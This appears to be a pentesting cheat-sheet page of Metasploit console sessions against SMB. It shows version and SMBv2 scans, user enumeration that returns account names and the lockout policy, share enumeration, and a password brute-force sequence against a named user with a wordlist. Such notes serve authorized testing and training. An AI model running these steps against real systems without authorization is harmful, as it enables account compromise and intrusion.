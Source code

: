


## METASPLOIT
#### SMB Version 
```
msf5 auxiliary(scanner/smb/smb_version) > show info
Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  RHOSTS     10.0.0.1         yes       The target address range or CIDR identifier
  SMBDomain  .                no        The Windows domain to use for authentication
  SMBPass                     no        The password for the specified username
  SMBUser                     no        The username to authenticate as
  THREADS    1                yes       The number of concurrent threads
msf5 auxiliary(scanner/smb/smb_version) > run

[*] 10.0.0.1:445      - Host could not be identified: Windows 6.1 (Samba 4.3.11-Ubuntu)
[*] 10.0.0.1:445      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
#### Test support of SMBv2
```
msf5 auxiliary(scanner/smb/smb2) > show info
Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  RHOSTS   10.0.0.1         yes       The target address range or CIDR identifier
  RPORT    445              yes       The target port (TCP)
  THREADS  1                yes       The number of concurrent threads
msf5 auxiliary(scanner/smb/smb2) > exploit
[+] 10.0.0.1:445     - 10.0.0.1  supports SMB 2 [dialect 255.2] and has been online for 3681089 hours
[*] 10.0.0.1 :445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
#### Find SMB Users
SAM Users
```
msf5 auxiliary(scanner/smb/smb_enumusers) > show info 
Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  RHOSTS     10.0.0.1    yes       The target address range or CIDR identifier
  SMBDomain  .                no        The Windows domain to use for authentication
  SMBPass                     no        The password for the specified username
  SMBUser                     no        The username to authenticate as
  THREADS    1                yes       The number of concurrent threads
msf5 auxiliary(scanner/smb/smb_enumusers) > exploit

[+] 10.0.0.1:139     - SAMBA-RECON [ carlos, admin, jujui ] ( LockoutTries=0 PasswordMin=5 )
[*] 10.0.0.1:        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
#### Find Shares
`msf5 auxiliary(scanner/smb/smb_enumshares)`
#### Share Brute Force
```
use auxiliary/scanner/smb/smb_login
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
set SMBUser carlos
set RHOSTS 10.0.0.1
exploit
```